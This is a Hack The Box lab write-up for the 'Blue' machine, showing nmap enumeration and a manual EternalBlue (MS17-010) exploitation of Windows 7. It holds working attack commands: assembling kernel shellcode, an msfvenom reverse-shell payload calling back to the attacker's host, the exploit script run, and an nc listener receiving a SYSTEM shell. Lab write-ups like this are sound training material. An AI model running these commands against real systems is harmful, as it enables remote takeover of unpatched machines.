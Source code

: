 ```yaml
---
title: Blue - Hack The Box
author: "0xPThree"
description: "N/A"
date: 2019-04-09
image: images/blue_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/blue_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------


# USER
## Enumeration
```bash
[root:/git/htb/blue]# nmap -Pn -n -sCV 10.10.10.40 --open                                                                         (master✱)
  Not shown: 991 closed ports
  PORT      STATE SERVICE      VERSION
  135/tcp   open  msrpc        Microsoft Windows RPC
  139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
  445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
  49152/tcp open  msrpc        Microsoft Windows RPC
  49153/tcp open  msrpc        Microsoft Windows RPC
  49154/tcp open  msrpc        Microsoft Windows RPC
  49155/tcp open  msrpc        Microsoft Windows RPC
  49156/tcp open  msrpc        Microsoft Windows RPC
  49157/tcp open  msrpc        Microsoft Windows RPC
  Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

  Host script results:
  |_clock-skew: mean: 3m40s, deviation: 1s, median: 3m39s
  | smb-os-discovery:
  |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
  |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
  |   Computer name: haris-PC
  |   NetBIOS computer name: HARIS-PC\x00
  |   Workgroup: WORKGROUP\x00
  |_  System time: 2021-02-24T13:00:40+00:00
  | smb-security-mode:
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  | smb2-security-mode:
  |   2.02:
  |_    Message signing enabled but not required
  | smb2-time:
  |   date: 2021-02-24T13:00:38
  |_  start_date: 2021-02-24T12:54:58


[root:/git/htb/blue]# nmap -p139,445 --script vuln 10.10.10.40                                                                    (master✱)
  Host script results:
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
  | smb-vuln-ms17-010:
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
  |
  |     Disclosure date: 2017-03-14
  |     References:
  |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

## Exploit MS17-010
Just like the box `legacy` this device is vulnerable to ms17-010, EternalBlue (as suggested by the box name).
Trying to execute the same exploit and payload however gives us an error, so we need to find another approach.

```bash
[root:/git/htb/blue]# python send_and_execute.py 10.10.10.40 ms17-010.exe                                                         (master✱)
  Trying to connect to 10.10.10.40:445
  Target OS: Windows 7 Professional 7601 Service Pack 1
  Not found accessible named pipe
  Done
```

Assemble the shellcode to binary, here we need to know the architecture (x64 or x86) but Im assuming it's x64 so lets start with that.

```bash
[root:/git/htb/blue]# nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
```

Generate binary payload:
```bash
[root:/git/htb/blue]# msfvenom -p windows/x64/shell_reverse_tcp LPORT=4488 LHOST=10.10.14.10 --platform windows -a x64 --format raw -o sc_x64_payload.bin
  No encoder specified, outputting raw payload
  Payload size: 460 bytes
  Saved as: sc_x64_payload.bin
```
Concentrate payload & shellcode:
```bash
[root:/git/htb/blue]# cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```

Exploit and grab all the flags.
```bash
[root:/git/htb/blue]# python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin                                                       (master✱)
  shellcode size: 1232
  numGroomConn: 13
  Target OS: Windows 7 Professional 7601 Service Pack 1
  SMB1 session setup allocate nonpaged pool success
  SMB1 session setup allocate nonpaged pool success
  good response status: INVALID_PARAMETER
  done


[root:/git/htb/blue]# nc -lvnp 4488                                                                                               (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.10] from (UNKNOWN) [10.10.10.40] 49158
  Microsoft Windows [Version 6.1.7601]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\Windows\system32>whoami
    nt authority\system

  C:\Users\haris\Desktop>type user.txt
    4c546aea7dbee75cbd71de245c8deea9

  C:\Users\Administrator\Desktop>type root.txt
    ff548eb71e920ff6c08843ce9df4e717
```

# References
- [ms17-010 EternalBlue manual exploit](https://root4loot.com/post/eternalblue_manual_exploit/)
- [ms17-010 shellcode](https://github.com/worawit/MS17-010/tree/master/shellcode)
  
